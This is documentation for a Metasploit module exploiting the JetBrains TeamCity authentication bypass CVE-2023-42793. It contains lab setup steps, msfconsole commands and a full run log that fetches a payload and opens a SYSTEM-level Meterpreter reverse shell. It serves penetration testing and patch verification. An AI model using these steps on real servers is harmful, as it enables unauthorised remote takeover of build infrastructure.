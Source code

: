 ## Vulnerable Application
This module exploits an authentication bypass vulnerability to achieve unauthenticated remote code execution
against a vulnerable JetBrains TeamCity server. All versions of TeamCity prior to version 2023.05.4 are
vulnerable to this issue. The vulnerability was originally discovered by SonarSource.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis).

## Testing
Download and install a vulnerable version of TeamCity for Windows, version
[2023.05.3](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe). By default the server will listen for HTTP
connections on port 8111.

## Verification Steps
Note: on Windows, disable Defender if you are using the default payloads.
1. Start msfconsole
2. `use exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793`
3. `set RHOST 192.168.86.50`
4. `set RPORT 8111`
5. `check`
6. `exploit`

## Scenarios

### Windows
```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT               8111             yes       The target port (TCP)
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   TeamCityAdminID     1                yes       The ID of an administrator account to authenticate as
   TeamCityRetryCount  10               yes       The number of times to retry reading the internal.properties file
   TeamCityRetryWait   3                yes       The number of seconds to wait between retry reading the internal.properties file
   VHOST                                no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      xwOdwhbLavjs     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RPORT 8111
RPORT => 8111
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > check
[+] 192.168.86.50:8111 - The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.c2ozbE1aYXdTNnhlVlRJRGdEeEU0c2VoQ1Qw.MTlkZjQ2YTktOTc1MS00YzRlLWEwMGEtYzE0ODEyZjZmMzIw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Deleting the authentication token.
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:51978) at 2023-09-28 12:20:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```
